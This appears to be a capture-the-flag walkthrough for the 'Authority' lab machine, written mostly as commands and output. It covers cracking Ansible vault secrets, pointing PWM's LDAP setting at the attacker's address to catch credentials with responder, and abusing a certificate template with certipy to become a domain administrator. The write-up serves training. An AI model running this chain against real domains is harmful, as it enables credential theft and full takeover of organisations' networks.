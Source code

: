 #Nmap

1.smbclient -L ip
smbclient \\\\10.10.11.222\\Development

2.cd \Automation\Ansible\PWM\defaults\
3.get main.yml

## └─# cat main.yml

pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438

pwm_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764

          decrypt with ansible2john <filename>

          and then copy its ansible password then fill it in file then to decrypt it u need hash with john tools

          john --wordlist=/usr/share/wordlists/rockyou.txt hash.txtt

          then u got the password after that go back the passwd then cat <file_name> | ansible-vault decrypt

Vault Password:!@#$%^\* (password already decrypted)

then u will got the user then to get password use same way to get user

username:svc*pwm
Password:pWm*@dm!N\_!23

login on https://10.10.11.222:8443/pwm/private/login
then select "Configuration Manager"
then fill the password u decrypted

after you login Download configuration and then u just find it this code

<value>ldaps://authority.authority.htb:636</value>

then change it to  
 <value>ldap://<Your-Ip-Tun0>:389</value>

then saved it then back to the website click "Import Configuration"

next upload file already changed , so open terminal run command

responder -I tun0 -wA

and then boom u got the password , next way go to evil-winrm to capture the flag

evil-winrm -i 10.10.11.222 -u svc_ldap -p "<password>"
lDaP_1n_th3_cle4r!

#Privilege Escalation

impacket-addcomputer authority.htb/svc_ldap:<password> -dc-ip 10.10.11.222 -computer-name '<give_any_name>' -computer-pass '<give_any_pass>'

#Example
impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -computer-name 'hack' -computer-pass '123'

#Certipy Installation
git clone https://github.com/ly4k/Certipy.git
cd Certipy 
pip3 install certipy-ad
python3 setup.py install

certipy find -u 'test1$' -p '123' -dc-ip 10.10.11.222


certipy req -username 'hack$' -password '123' -ca 'AUTHORITY-CA' -target 10.10.11.222 -template 'CorpVpn' -upn "administrator@authority.htb" -dns authority.authority.htb

if u got some error u need copy authority.authority.htb to /etc/hosts
and run command sudo ntpdate -u authority.authority.htb

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

the private keys saved on your linux , so we just login ldap to add user

#Ldap Command
certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222 -ldap-shell
run command help to see command 
# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 exit - Terminates this session.



add_user_to_group svc_ldap 'Administrator'


now exit LDAP go back linux run evil-wirnm for capture the flag root

evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

after you logged in you just 
"cd C:\Users\Administrator\Desktop"
cat root.txt
de8**************
